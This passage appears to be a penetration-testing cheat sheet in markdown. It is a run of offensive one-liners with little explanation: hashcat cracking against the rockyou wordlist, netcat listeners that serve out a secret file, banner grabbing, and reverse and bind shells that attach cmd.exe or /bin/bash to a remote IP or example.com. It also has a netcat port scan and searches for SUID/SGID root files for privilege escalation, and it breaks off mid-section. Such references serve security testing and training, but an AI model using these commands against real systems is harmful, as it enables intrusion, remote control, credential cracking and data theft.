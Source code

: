 ### Hashcat password cracking
{% highlight bash %}
hashcat -m 400 -a 0 hash /root/rockyou.txt
{% endhighlight %}

## Netcat examples
{% highlight bash %}
c:> nc -l -p 31337
#nc 192.168.0.10 31337
c:> nc -v -w 30 -p 31337 -l < secret.txt
#nc -v -w 2 192.168.0.10 31337 > secret.txt
{% endhighlight %}

## Banner grabbing with NC
{% highlight bash %}
nc 192.168.0.10 80
GET / HTTP/1.1
Host: 192.168.0.10
User-Agent: Mozilla/4.0 
Referrer: www.example.com
<enter>
<enter>
{% endhighlight %}

### Window reverse shell
{% highlight bash %}
c:>nc -Lp 31337 -vv -e cmd.exe
nc 192.168.0.10 31337
c:>nc example.com 80 -e cmd.exe
nc -lp 80
 
nc -lp 31337 -e /bin/bash
nc 192.168.0.10 31337
nc -vv -r(random) -w(wait) 1 192.168.0.10 -z(i/o error) 1-1000
{% endhighlight %}

### Find SUID\SGID root files
{% highlight bash %}
# Find SUID root files
find / -user root -perm -4000 -print
 
# Find SGID root files:
find / -group root -perm -2000 -print
 
# Find SUID and SGID files owned by anyone:
find / -perm -4000 -o -perm -2000 -print
 
# Find files that are not owned by any user:
find / -nouser -print
 
# Find files that are not owned by any group:
find / -nogroup -print
 
# Find symlinks and what they point to:
